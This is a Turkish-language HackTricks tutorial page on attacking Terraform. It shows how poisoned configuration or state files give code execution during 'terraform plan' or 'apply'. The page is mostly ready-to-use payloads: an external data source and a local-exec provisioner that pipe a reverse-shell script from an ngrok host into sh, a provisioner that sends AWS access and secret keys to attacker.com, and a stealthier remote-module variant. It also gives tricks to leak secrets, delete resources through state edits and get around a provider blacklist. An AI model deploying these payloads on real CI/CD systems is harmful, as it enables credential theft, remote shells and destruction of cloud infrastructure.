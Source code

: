 # Terraform Güvenliği

<details>

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin**.
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden alıntı:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform, insan tarafından okunabilir yapılandırma dosyalarında **bulut ve yerinde kaynakları tanımlamanıza** olanak tanıyan bir **altyapı kodu aracıdır**. Bu dosyaları sürümleyebilir, yeniden kullanabilir ve paylaşabilirsiniz. Ardından, altyapınızın tüm yaşam döngüsü boyunca tutarlı bir iş akışını kullanarak altyapınızı sağlamlaştırabilir ve yönetebilirsiniz. Terraform, hesaplama, depolama ve ağ kaynakları gibi düşük seviyeli bileşenleri yönetebilirken, DNS girişleri ve SaaS özellikleri gibi yüksek seviyeli bileşenleri de yönetebilir.

### Terraform Nasıl Çalışır?

Terraform, bulut platformlarında ve diğer hizmetlerde kaynakları oluşturur ve yönetirken uygulama programlama arayüzleri (API'ler) aracılığıyla çalışır. Sağlayıcılar, Terraform'un erişilebilir bir API ile neredeyse her platform veya hizmetle çalışmasını sağlar.

![](<../.gitbook/assets/image (177).png>)

HashiCorp ve Terraform topluluğu, **1700'den fazla sağlayıcı** yazmıştır ve binlerce farklı türde kaynağı ve hizmeti yönetmek için bu sayı devam etmektedir. Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog ve daha birçok sağlayıcıyı içeren tüm genel olarak kullanılabilir sağlayıcıları [Terraform Registry](https://registry.terraform.io/) üzerinde bulabilirsiniz.

Temel Terraform iş akışı üç aşamadan oluşur:

* **Yazma:** Kaynakları tanımlarsınız, bu kaynaklar birden fazla bulut sağlayıcı ve hizmette olabilir. Örneğin, bir uygulamayı sanal makinelerde bir Sanal Özel Ağ (VPC) ağındaki güvenlik grupları ve bir yük dengeleyici ile dağıtmak için bir yapılandırma oluşturabilirsiniz.
* **Planlama:** Terraform, mevcut altyapı ve yapılandırmanıza dayanarak oluşturacağı, güncelleyeceği veya sileceği altyapıyı tanımlayan bir yürütme planı oluşturur.
* **Uygulama:** Onaylandığında, Terraform önerilen işlemleri doğru sırayla gerçekleştirir ve herhangi bir kaynak bağımlılığını dikkate alır. Örneğin, bir VPC'nin özelliklerini güncellerseniz ve o VPC'deki sanal makinelerin sayısını değiştirirseniz, Terraform önce VPC'yi yeniden oluşturacak ve ardından sanal makineleri ölçeklendirecektir.

![](<../.gitbook/assets/image (215).png>)

## Terraform Laboratuvarı

Sadece bilgisayarınıza terraform yükleyin.

İşte bir [kılavuz](https://learn.hashicorp.com/tutorials/terraform/install-cli) ve burada [terraform'ı indirmenin en iyi yolu](https://www.terraform.io/downloads).

## Terraform'da Uzaktan Kod Çalıştırma (RCE)

Terraform, **bir web sayfası veya ağ hizmeti sunan bir platforma sahip değil**, bu nedenle terraform'u **tehlikeye atmanın tek yolu**, **terraform yapılandırma dosyalarını ekleyebilmek/değiştirebilmektir**.

Ancak, terraform, **farklı konumlara ayrıcalıklı erişim** sağlayacak şekilde çalışabilmesi için **çok hassas bir bileşendir**.

Bir saldırganın terraform'un çalıştığı sistemdeki sistemi tehlikeye atabilmesi için **terraform yapılandırmalarını depolayan depoyu tehlikeye atması gerekmektedir**, çünkü bir noktada bunlar **yorumlanacak**.

Aslında, **bir PR oluşturulduktan sonra terraform plan/apply'ı otomatik olarak yürüten** Atlantis gibi çözümler bulunmaktadır:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Bir terraform dosyasını tehlikeye atabilirseniz, birisi `terraform plan` veya `terraform apply` komutunu çalıştırdığında farklı yollarla RCE gerçekleştirebilirsiniz.

### Terraform plan

Terraform plan, terraform'da **en çok kullanılan komuttur** ve geliştiriciler/terraform kullanan çözümler bunu sürekli çağırır, bu nedenle **RCE almanın en kolay yolu**, bir `terraform plan` sırasında keyfi komutları çalıştıran bir terraform yapılandırma dosyasını zehirlemektir.

#### Harici bir sağlayıcı kullanarak

Terraform, Terraform ve harici programlar arasında bir arayüz sağlayan [`external` sağlayıcıyı](https://registry.terraform.io/providers/hashicorp/external/latest/docs) sunar. `external` veri kaynağını kullanarak bir `plan` sırasında keyfi kod çalıştırabilirsiniz.

Terraform yapılandırma dosyasına aşağıdakine benzer bir şey enjekte etmek, `terraform plan` çalıştırıldığında bir ters shell çalıştıracaktır:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Özel bir sağlayıcı kullanma

Bir saldırgan, bir [özel sağlayıcıyı](https://learn.hashicorp.com/tutorials/terraform/provider-setup) [Terraform Registry](https://registry.terraform.io/)'e gönderebilir ve daha sonra bunu bir özellik dalında Terraform koduna ekleyebilir ([buradan örnek](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Sağlayıcı `init`te indirilir ve `plan` çalıştırıldığında kötü amaçlı kodu çalıştıracaktır.

Örneği [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) adresinde bulabilirsiniz.

#### Harici bir referans kullanma

Bahsedilen her iki seçenek de faydalıdır ancak çok gizli değildir (ikincisi birinci seçeneğe göre daha gizli ancak daha karmaşıktır). Bu saldırıyı, bu önerileri takip ederek hatta daha **gizli bir şekilde** gerçekleştirebilirsiniz:

* Terraform dosyasına doğrudan ters kabuk eklemek yerine, ters kabuğu içeren **harici bir kaynağı yükleyebilirsiniz**:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Rev shell kodunu [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) adresinde bulabilirsiniz.

* Dış kaynağı kullanırken, **ref** özelliğini kullanarak **repo içinde bir dalda terraform rev shell kodunu gizlemek** için şöyle bir şey yapabilirsiniz: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Tüm değişiklikleri uygulamak için Terraform apply çalıştırılacak, ayrıca **yerel yürütme** ile RCE elde etmek için kötü niyetli bir Terraform dosyası enjekte edebilirsiniz.\
Sadece aşağıdaki gibi bir payload'ın `main.tf` dosyasında sona erdiğinden emin olmanız gerekmektedir:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
## Sırların Sızdırılması

`terraform apply` komutunu çalıştırarak **terraform tarafından kullanılan gizli değerlerin sızdırılmasını** sağlamak için terraform dosyasına şöyle bir şey ekleyebilirsiniz:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Terraform Durum Dosyalarını Kötüye Kullanma

Eğer terraform durum dosyaları üzerinde yazma erişiminiz varsa ancak terraform kodunu değiştiremiyorsanız, [**bu araştırma**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) dosyadan faydalanmanın bazı ilginç seçeneklerini sunar:

### Kaynakları Silme <a href="#deleting-resources" id="deleting-resources"></a>

Kaynakları yok etmek için 2 yol vardır:

1. **Durum dosyasına gerçek kaynağı yok etmek için rastgele bir isimle kaynak ekleyin**

Çünkü terraform, kaynağın var olmaması gerektiğini görecek ve onu yok edecektir (belirtilen gerçek kaynak kimliğini takip ederek). Önceki sayfadaki örnek:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Kaynağı silmek için değiştirin, güncellenemeyecek şekilde (böylece silinecek ve yeniden oluşturulacak)**

Bir EC2 örneği için, örneğin türünü değiştirmek, terraform'un onu silip yeniden oluşturmasını sağlamak için yeterlidir.

### Uzaktan Kod Çalıştırma (RCE)

Ayrıca, [özel bir sağlayıcı oluşturmak](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) ve terraform durum dosyasındaki sağlayıcılardan birini kötü niyetli olanla değiştirmek veya kötü niyetli sağlayıcıyla boş bir kaynak eklemek de mümkündür. Özgün araştırmadan bir örnek:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Kara listeye alınmış sağlayıcıyı değiştirin

Eğer `hashicorp/external` durumunda kara listeye alındıysa, aşağıdakileri yaparak `external` sağlayıcısını yeniden uygulayabilirsiniz. Not: https://registry.terraform.io/providers/nazarewk/external/latest adresinde yayınlanan dış sağlayıcının bir çatalını kullanıyoruz. Kendi çatalınızı yayınlayabilir veya yeniden uygulayabilirsiniz.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Sonra normal olarak `external`'ı kullanabilirsiniz.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Denetim Araçları

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec, terraform kodunuzu statik analiz ederek potansiyel yanlış yapılandırmaları tespit etmek için kullanır.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan, Altyapı olarak Kod için bir statik kod analizcisi.

## Referanslar

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
